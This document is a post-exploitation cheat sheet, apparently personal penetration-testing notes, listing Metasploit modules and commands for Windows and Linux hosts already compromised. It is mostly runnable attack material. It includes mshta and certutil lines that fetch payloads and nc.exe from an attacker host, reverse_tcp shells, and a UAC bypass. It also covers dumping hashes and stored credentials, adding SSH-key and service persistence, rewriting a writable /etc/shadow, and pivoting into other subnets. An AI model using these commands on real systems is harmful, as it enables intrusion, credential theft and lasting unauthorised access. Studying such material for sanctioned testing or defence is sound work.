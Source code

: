 # Phase Three - Post Exploitation

## Shells

HTA_SERVER

``` msfconsole>use hta_server``` (starts http server and serves payload)
- from elevated cmd.exe run ``` mshta.exe hxxp://IP_ADDRESS/payload.hta```
- python -c 'import pty; pty.spawn("/bin/bash")'
- /bin/bash -i

MS-VENOM PAYLOAD
- Have shell but not bash. We can upgrade by using ms venom to create a payload to call back to local machine on lport. Create payload, upload to system and run.

## Windows Post-Ex - You hacked a windows box, now...
- Net users
- Net user administrator
- Net localgroup
- Net localgroup administrator

- use post/windows/gather/win_privs
- post/windows/gather/enum_logged_on_users
- post/windows/gather/checkvm
- post/windows/gather/enum_applications
- post/windows/gather/enum_av_excluded
- post/windows/gather/enum_computers
- post/windows/gather/enum_shares
- Enable RDP ```>getgui```

## Linux Post-Ex - You hacked a linux box, now...
- Meterpreter - getudi (Who are we)
- Meterpreter - sysinfo (computer name, OS)
- Shell - whoami
- Shell - ifconfig
- Shell - Cat /etc/network
- Shell - Cat /etc/hosts
- Shell - Cat /etc/resolv.conf
- Shell - cat /etc/passwd
- Shell - crontab -l
- Shell - ps aux

- Check sudo capability ``` sudo -l```
- post/linux/gather/enum_configs
- post/multi/gather/env
- post/linux/gather/enum_network
- post/linux/gather/enum_protections 5. post/linux/gather/enum_system
- post/linux/gather/checkcontainer
- post/linux/gather/checkvm
- post/linux/gather/enum_users_history 9. post/multi/manage/system_session 10. post/linux/manage/download_exec

<br>
 
- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump (will unshadow SHADOW file)
- post/linux/gather/ecryptfs_creds
    - Description:
  This module will collect the contents of all users' .ecrypts 
  directories on the targeted machine. Collected "wrapped-passphrase" 
  files can be cracked with John the Ripper (JtR) to recover "mount 
  passphrases".

- post/linux/gather/enum_psk (like WIFI PSK)
- post/linux/gather/enum_xchat (IRC chat program, data harvesting)
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
    - Description:
  This module collects PPTP VPN information such as client, server, 
  password, and IP from your target server's chap-secrets file.
- 

## Windows Bypass UAC - Get SYSTEM
- ``` use exploit/windows/local/bypassuac_injection```
```
set session 1
set TARGET 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp exploit
```

## Dump Hashes - Kiwi
``` >load kiwi```
```
creds_all
lsa_dump_sam
lsa_dump_secrets
```
## Crack Windows hashes
- auxiliary/analyze/crack_windows

## Persistence 
```exploit/windows/local/persistence_service```
- post/linux/manage/sshkey_persistence (Add SSH Keys to users directories)

## Linux Priv esc
- Looks for Cron jobs, scripts, and Python scripts. ps aux
- chkrootkit is a known priv esc point
- ``` exploit/unix/local/chkrootkit```
- The following command will look for files (and not symlinks etc) which is world writable. Command:​ ``` find / -not -type l -perm -o+w```(The /etc/shadow maybe writable, Use openssl to generate a password entry.
 ```openssl passwd -1 -salt abc password```)
- Check if man utility is running as root, can priv esc shell.

## Download files
- ``` python3 -m http.server 80```
- ``` python -m SimpleHTTPServer 80```
- ``` certutil -urlcache -f hxxp://10.10.3.3/nc.exe nc.exe```
- ``` wget hxxp://IP_ADDRESS/FILE FILENAME```


## POST Exploit command dump
```
Getuid - meterpreter
sysinfo - meterpreter
getuid - meterpreter
getpid - meterpreter
getprivs - windows command?
whoami
whoami /priv
Net users
Net user administrator
Net localgroup
Net localgroup administrator
Route print
Netstat -ano
Net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST
groups root
who
lastlog
Ip a s
Cat /etc/network
Cat /etc/hosts
Cat /etc/resolv.conf
```

## Pivoting
- ifconfig to identify multiple networks.
- ``` >run autoroute -s 192.159.247.0 -n 255.255.255.0``` (add subnet)
- ``` >run autoroute -s 192.159.247.0/24``` (add subnet)
- ``` >portwd add -l 1234 -p 80 -r 192.159.247.2```
- ``` >portscan/tcp set RHOSTS 192.159.247.3-10 set PORT 80, 8080, 445, 22```
- ``` nmap -sV -T4 -p 1234 localhost```
- Tools from msfconsole will be able to access second box directly using native IP and PORT, as the above example with portscan. This will automatically be tunnelled through the session route.
native tools outside msfconsole will use the local socket port 1234 local host, as the above nmap example.


